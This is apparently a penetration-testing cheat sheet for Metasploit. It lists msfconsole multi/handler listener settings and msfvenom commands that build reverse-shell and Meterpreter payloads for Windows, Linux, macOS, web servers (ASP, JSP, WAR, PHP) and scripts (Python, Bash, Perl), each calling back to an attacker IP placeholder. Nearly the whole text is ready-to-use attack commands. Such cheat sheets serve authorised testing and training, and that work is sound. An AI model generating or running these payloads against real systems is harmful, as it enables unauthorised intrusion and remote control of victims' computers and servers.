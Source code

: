 <pre>
<B> Handler on Msfconsole </B>
  - use exploit/multi/handler
  - set PAYLOAD windows/meterpreter/reverse_tcp
  - set LHOST localhost
  - set LPORT 4444
  - set ExitOnSession false
  - exploit -j -z

<B> Payload creation with Direct Access to OS </B>
- Windows:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f exe -o payload.exe
  
- Linux:
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f elf > payload.elf
  
- Mac:
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f macho > payload.macho

<B> Payload creation to exploit through web</B>

- ASP:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f asp > payload.asp
  
- JSP:
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f jsp > payload.jsp
  
- WAR:
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f war > payload.war

- PHP:
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.php
  
<B> Payload creation to exploit via scripting</B>
  
- Python:
  - msfvenom -p cmd/unix/reverse_python LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.py

- Bash:

  - msfvenom -p cmd/unix/reverse_bash LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.sh

- Perl:
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.pl

</pre>
